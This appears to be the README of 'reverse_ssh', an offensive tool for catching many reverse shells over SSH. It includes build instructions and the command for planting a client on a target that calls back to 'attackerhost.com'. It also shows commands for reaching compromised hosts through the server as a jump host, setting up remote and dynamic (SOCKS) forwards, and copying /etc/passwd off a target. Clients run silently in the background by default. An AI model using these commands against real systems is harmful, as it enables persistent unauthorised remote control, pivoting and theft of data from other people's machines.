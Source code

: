 # Reverse SSH

Ever wanted to use SSH for reverse shells? Well now you can.  

The reverse SSH server lets you catch multiple reverse shells, using the fully statically compiled reverse shell binary.

```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |   SSH   |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
make
cd bin/

# start the server
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232

# copy client to your target then connect to the server
./client attackerhost.com:3232

# Get help text
ssh localhost -p 3232 help

# See clients
ssh localhost -p 3232 ls

                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root@wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+


# Connect to full shell
ssh -J localhost:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac


```

## Setup Instructions

> **NOTE:** reverse_ssh requires Go **1.16** or higher. Please check you have at least this version via `go version`

The simplest build command is just:

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
GOOS=windows GOARCH=amd64 make client # will create client.exe
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.
Alternatively, you can use the --authorizedkeys flag to point to a file.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control, then connect to the server.

```sh
./client yourserver.com:3232
```

You can then see what reverse shells have connected to you using `ls`:

```sh
ssh yourserver.com -p 3232 ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root@wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+

```

Then typical ssh commands work, just specify your rssh server as a jump host. 

```sh
# Connect to full shell
ssh -J youserver.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac

# Run a command without pty
ssh -J youserver.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac ls

# Start remote forward 
ssh -R 1234:localhost:1234 -J youserver.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac ls

# Start dynamic forward 
ssh -D 9050 -J youserver.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac ls

# SCP 
scp -J youserver.com:3232 0f6ffecb15d75574e5e955e014e0546f6e2851ac:/etc/passwd .

```

## Fancy Features

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```

## Foreground vs Background (Important note about clients)

By default, clients will run in the background. When started they will execute a new background instance (thus forking a new child process) and then the parent process will exit. If the fork is successful the message "Ending parent" will be printed.

This has one important ramification: once in the background a client will not show any output, including connection failure messages. If you need to debug your client, use the `--foreground` flag.
